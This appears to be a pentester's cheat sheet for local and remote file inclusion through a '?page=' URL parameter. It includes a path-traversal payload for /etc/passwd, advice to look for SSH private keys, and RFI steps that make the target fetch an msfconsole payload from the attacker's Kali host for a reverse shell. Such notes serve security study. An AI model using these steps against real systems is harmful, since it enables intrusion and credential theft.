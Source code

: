 # Initial inspection

1. Does the URL have a `?page=<whatever>` at the end?
   
   a. Yes then continue

   b. No then stop

# Attempt LFI 
 
1. cat a file every user should have access to?
   
   a. Something like this `<url>/?page=../../../../../../../../../../../etc/passwd`

   b. If this worked then LFI is good

   c. If this didnt work, attempt url encoding it

   d. If this didnt work, move on to RFI

3. Get users that have home directories

   a. Good starting point is look for `.ssh/id.rsa` file in attempt to get ssh access

# Attempt RFI 

1. set up enviroment

   a. Create nc listener on kali

   b. use website to call back to nc listener `<url>/?page=http://<kali ip>:<port>/`

2. . examine nc output

         i. if the request looks like `GET / HTTP/1.0` then the webpage is not looking for any file type inparticulat

         ii. if the tequest looks like `GET /<file name> HTTP/1.0` then it is looking for a file with that file name

   d. request like `GET / HTTP/1.0`:

         i. create payload with msfconsol and start a webserver in that location

         ii. creat a listener on the kali machine listening for the call back
   
         iii. call the file through the url `<url>/?page=http://<kali webserver>/<file>`

         iv. wait for the call back

   e. request like `GET /<file name> HTTP/1.0`:

         i. create payload with msfconsol and with the name and file type of the one that nc returned

         ii. start a webserver in that location of shell

         iii. creat a listener on the kali machine listening for the call back

         iv. call the file through the url `<url>/?page=http://<kali webserver>/<file>`

         v. wait for the call back

      


